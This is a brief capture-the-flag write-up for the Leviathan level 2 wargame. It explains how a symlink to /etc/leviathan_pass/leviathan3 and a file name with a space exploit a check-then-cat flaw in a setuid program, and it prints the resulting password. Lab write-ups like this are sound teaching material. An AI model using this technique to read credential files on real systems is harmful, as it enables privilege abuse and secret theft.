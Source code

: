 ```yaml
---
layout: default
title: leviathan2
---
```




we will create link file for the password file in the name "link"
`ln -sf /etc/leviathan_pass/leviathan3 link`.
then, we will create file which named "link bla".
`touch "link bla"`
and then, we'll execute the printfile with our file:
`~/printfile "link bla"`.
also, we need to change the permission of our directory, that the user leviathan3 will be able to access files.
`chmod +x .`

the exploit based on the fact that the access function returns 0 for the file "link bla", because it's fine.

however, it than execute `/bin/cat link file`, which divided to 2 different commands.

![alt text](./images/level2.png)


**Flag:** ***`f0n8h2iWLP`*** 
